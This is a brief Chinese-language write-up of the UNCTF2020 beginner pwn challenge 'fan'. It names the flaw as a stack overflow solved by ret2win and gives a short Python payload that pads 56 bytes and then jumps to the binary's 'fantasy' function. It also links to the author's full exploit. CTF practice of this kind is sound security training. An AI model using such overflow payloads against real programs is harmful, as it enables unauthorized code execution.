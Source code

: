 
## fan
- 题目描述
- 题目附件：[fan](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/unctf2020/pwn/fan/fan)
- 考察点：栈溢出
- 难度：入门

### 程序分析
ret2win

### 解题思路
``` python
offset = 56
payload = 'A'*offset
payload += p64(elf.sym['fantasy'])

sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/unctf2020/pwn/fan) 

